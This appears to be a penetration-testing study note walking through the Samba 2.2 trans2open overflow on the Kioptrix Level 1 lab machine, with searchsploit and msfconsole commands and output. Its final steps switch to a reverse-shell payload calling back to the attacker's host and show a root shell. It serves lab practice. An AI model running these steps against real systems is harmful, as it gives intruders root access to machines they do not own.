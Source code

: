 #metasploit #msfconsole

# Gaining Root with Metasploit

### Attack the SMB

Recap:
	1. We did searchsploit samba 2.2 and found trans2open vulnerability

```
──(kali㉿kali)-[~]
└─$ searchsploit samba 2.2 | grep trans2open
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                                                     | osx/remote/9924.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                                | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                              | linux_x86/remote/16861.rb

```

Now lets try the metasploit (msfconsole) the trans2open

1. Execute `search trans2open`

```
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)


Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open


```


2. Use the Option 1 (Linux Machine)

```
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 

```

3. Set RHOSTS (the target)

```
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.68.6
RHOSTS => 192.168.68.6

```

4. Check the settings using `options` command

```
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.68.6     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.68.8     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

```

5. Run either `exploit` or `run`

6. If the session is closed or died. Check the payload option. As you see in the result of `options` command. The payload set is a staged `linux/x86/meterpreter/reverse_tcp`. Lets use the non staged if it will work (`linux/x86/shell_reverse_tcp')

```
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.68.8:4444 
[*] 192.168.68.6:139 - Trying return address 0xbffffdfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffcfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffbfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 1 closed.  Reason: Died
^[[B^[[B^[[B[*] 192.168.68.6:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 2 closed.  Reason: Died

```

7. Set the payload - chose no staged - `linux/x86/shell_reverse_tcp`

```
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
    

```

8. Execute run. As you see here, we are succesfully connected and executed `whoami` and `hostname`
```
msf6 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.68.8:4444 
[*] 192.168.68.6:139 - Trying return address 0xbffffdfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffcfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffbfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffafc...
[*] 192.168.68.6:139 - Trying return address 0xbffff9fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff8fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff7fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff6fc...
[*] Command shell session 4 opened (192.168.68.8:4444 -> 192.168.68.6:32805) at 2024-06-13 18:42:07 -0400

[*] Command shell session 5 opened (192.168.68.8:4444 -> 192.168.68.6:32806) at 2024-06-13 18:42:09 -0400
[*] Command shell session 6 opened (192.168.68.8:4444 -> 192.168.68.6:32807) at 2024-06-13 18:42:10 -0400
[*] Command shell session 7 opened (192.168.68.8:4444 -> 192.168.68.6:32808) at 2024-06-13 18:42:11 -0400
whoami
root
hostname
kioptrix.level1
```